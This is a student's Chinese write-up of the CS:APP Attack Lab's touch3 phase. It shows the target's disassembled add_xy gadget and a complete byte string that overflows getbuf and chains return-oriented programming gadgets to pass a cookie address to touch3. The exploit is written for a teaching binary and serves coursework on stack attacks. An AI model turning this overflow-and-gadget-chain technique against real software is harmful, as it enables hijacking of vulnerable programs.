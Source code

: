cookie 0x59b997fa的ascii码：`35 39 62 39 39 37 66 61 00`

要完成的事：
1. 把cookie字符串存到大于getbuf栈顶rsp+0x30的位置 
2. 让rdi保存这个存有cookie字符串的地址
3. 调用touch3函数

rsp地址每一次运行都会变，因此没有办法直接取到我们想要的地址，只能够通过确定偏移量，再将rsp加上偏移量来确定地址

就直接在知乎上抄一下答案了，把答案看懂了之后自己再分析一下

看知乎上说要用到这个：

```
000000000000006a <add_xy>:
  6a:	f3 0f 1e fa          	endbr64 
  6e:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  72:	c3                   	ret    
```

ctarget.s中搜索一下
```
00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	ret  
```

搜的答案：
```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00 /* 补前40个字节 */
cc 19 40 00 00 00 00 00 /* popq %rax */
20 00 00 00 00 00 00 00 /* 偏移量 */
42 1a 40 00 00 00 00 00 /* movl %eax,%edx */
69 1a 40 00 00 00 00 00 /* movl %edx,%ecx */
27 1a 40 00 00 00 00 00 /* movl %ecx,%esi */
06 1a 40 00 00 00 00 00 /* movq %rsp,%rax */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
d6 19 40 00 00 00 00 00 /* add_xy => lea (%rdi,%rsi,1),%rax => %rax=%rdi+%rsi */
c5 19 40 00 00 00 00 00 /* movq %rax,%rdi */
fa 18 40 00 00 00 00 00 /* touch3地址 */
35 39 62 39 39 37 66 61 /* cookie字符串 */
00 00 00 00 00 00 00 00
```

分析一下：
首先还是补40个字节，补到getbuf函数返回的位置，对返回地址进行覆盖，还是使用 `popq` 操作，后面存一个值，这个值在这里是存放cookie字符串的地址到栈顶指针rsp的偏移量，偏移量我们需要根据我们获取rsp时rsp的地址值来确定，因此先继续构造指令

这里的popq指令之前分析过，能用的只有58 `popq %rax`，共有三个选择：`/* ab 19 40 */ /* b9 19 40 */ /* cc 19 40 */`，将偏移量值存入rax后，由于我们最终是需要rdi存储存有cookie字符串的地址，因此中间就需要
1. 通过操作将rax中的偏移量和rsp中的地址加到一起
2. 将这个最终的地址赋值给rsi

由于eax的值等于rax的值，于是我们可以选取`movl %eax,%edx`(89 c2)、`movl %edx,%ecx`(89 d1)、`movl %ecx,%esi`(89 ce)来将rax中的偏移量赋值给esi
> 附录给的表中好像e字母开头的寄存器只能用movl，r开头的寄存器只能用movq，暂时还不知道为啥#TODO
